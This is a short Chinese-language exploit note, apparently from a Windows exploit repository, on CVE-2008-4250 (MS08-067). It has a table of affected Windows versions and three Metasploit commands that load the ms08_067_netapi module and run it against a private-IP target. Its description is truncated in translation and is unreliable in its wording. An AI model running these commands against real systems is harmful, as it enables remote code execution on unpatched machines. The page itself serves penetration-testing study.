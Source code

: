 ### CVE-2008-4250

#### 描述

Pre-Beta中的Server服务允许远程攻击者通过精心设计的RPC请求执行任意代码，该请求会在执行以下操作时触发溢出路径规范化。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2003 |                  |         |        |                    |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |
| Windows Xp          |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4250_win2003_x86_msf.png?raw=true)